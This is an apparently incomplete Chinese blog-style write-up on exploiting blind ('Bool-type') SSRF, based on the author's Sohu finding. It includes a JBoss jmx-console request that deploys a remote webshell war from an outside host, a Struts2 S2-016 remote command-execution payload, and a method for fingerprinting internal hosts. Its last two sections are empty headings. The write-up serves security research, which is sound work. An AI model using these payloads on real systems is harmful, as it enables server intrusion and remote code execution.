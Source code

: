 ### Bool型SSRF的思考与实践

	0x00 Bool型SSRF 
	0x01 SSRF利用的基本思路
	0x02 两者之间的区别
	0x03 Bool型SSRF利用方法
	0x04 Struts2在Bool型SSRF中的利用
	0x05 Other(想到什么写什么)

#### 0x00 Bool型SSRF
什么是Bool型SSRF, 没听说过. 其实我也没有听说过. 只是我也不知道该怎么描述就起了这样一个名称.

Bool型SSRF: 简单来说就是仅返回True 或 False的SSRF. 就以我前两天我挖掘的一个搜狐SSRF为例, 只有服务器端正确响应HTTP请求并且只有响应码为200的时候, 返回Success，其余全部返回Failed. 这就是一个典型的Bool型SSRF.

#### 0x01 SSRF利用的基本思路
Wooyun上有很多SSRF典型的案例, 可以说让人拍案惊奇. 但是没有一个关于BOOL型SSRF的利用案例(可能我没看到吧). 这次挖掘到一个搜狐的Bool型SSRF, 对于我这个只是简单理解SSRF原理没有任何实战的渣渣来说, 难度还真大. 不过想想, 以前没有接触过SSRF, 这次就把你玩透. 翻阅学习Wooyun上的案例, 了解SSRF利用的基本思路:

	内网探测 -> 应用识别 -> 攻击Payload -> Payload Result

1. 内网探测: 内网主机信息收集
2. 应用识别: 主机应用识别(可以通过Barner和应用指纹进行识别)
3. 攻击Payload: 根据应用识别的应用,加载不同的攻击Payload(最常用莫属于Struts2)
4. Payload Result: 返回相应Payload的执行信息

#### 0x02 两者之间的区别
BOOL型SSRF与一般的SSRF的区别在步骤二应用识别, 步骤三攻击Payload和步骤四Payload Result. 一般的SSRF在应用识别阶段返回的信息相对较多, 比如Banner信息, HTTP Title信息,更有甚的会将整个HTTP的Reponse完全返回, 而Bool型SSRF的却永远只有True or False. 因为没有任何Response信息, 所以对于攻击Payload的选择也是有很多限制的, 不能选择需要和Response信息交互的Payload. 在此次搜狐SSRF的中, 我分别使用了JBOSS远程调用和Struts2 S2-016远程命令执行. 对于Bool型SSRF, 我们不能说Payload打过去就一定成功执行, 就算是返回True, 也不能保证Payload一定执行成功. 所以我们要验证Payload的执行状态信息.

#### 0x03 Bool型SSRF利用方法
1. 应用识别

	{ 指纹1 + 指纹2 + 黑指纹 }

以JBOSS为例: { /jmx-console/ + /invoker/JMXInvokerServlet + /d2z341.d#211 }

指纹1 和 指纹2 为应用识别指纹, 准确率越高越好. 黑指纹其实就是不会匹配任何应用的指纹，一般用较长的字符串代替即可. 分别用指纹1, 指纹2 和 黑指纹对内网主机探测统计, 获取三个主机列表: jmx-console.host(A)    invoker.host(B)    black.host(C). 

Host = (A∩B) –(A∩B∩C) 即剔除jmx-console.host 和 invoker.host中存在于black.host的主机, 然后对jmx-console和invoker.host的主机取交集.

2. 攻击Payload

针对不用的应用我们需要加载不同的Payload, 但是大多数的攻击都是需要和Payload Result进行交互的. 这类Payload是没有办法用在此处的, 我们需要的是不需要和Payload Result进行交互的Payload. 我可以想到的两种应用比较广泛的Payload有JBOSS和Struts2漏洞.

JBoss Payload:

	/jmx-console/HtmlAdaptor?action=invokeOp&name=jboss.system%3Aservice%3DMainDeployer&methodIndex=3&arg0=http%3A%2F%2F192.168.1.2%2Fzecmd.war
通过JBOSS HtmlAdaptor接口直接部署远程war包, 我们可以通过access.log去验证war包是否成功部署.下面就是通过SSRF去执行不同的命令.还有一种方式,就是我们可以通过我们服务器的access.log日志获取到远程服务器对应的公网IP, 有时也会有一些意外惊喜.

Struts2 Payload:

	/action?action:%25{%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'command'})).start()}

Struts2漏洞的影响大家都懂的, 通过URL直接远程命令执行, 想打那里就打那里.

3. Payload Result

获取Payload Result是十分有必要的, 这里的Payload Result和非Bool型SSRF的Result不是一个意思. 对于Bool型SSRF, 服务器端返回的数据永远只有True和False, 我们是可以通过返回的True或者False来判断Payload的执行状态, 但是这样的判断标准是无法让人信服的. 能否有一种方法能够精确的判断Payload的执行状态,而且能够返回Payload Result. 对于Struts2我找到了一种可利用的方法.

#### 0x04 Struts2在Bool型SSRF中的利用

#### 0x05 Other(想到什么写什么)
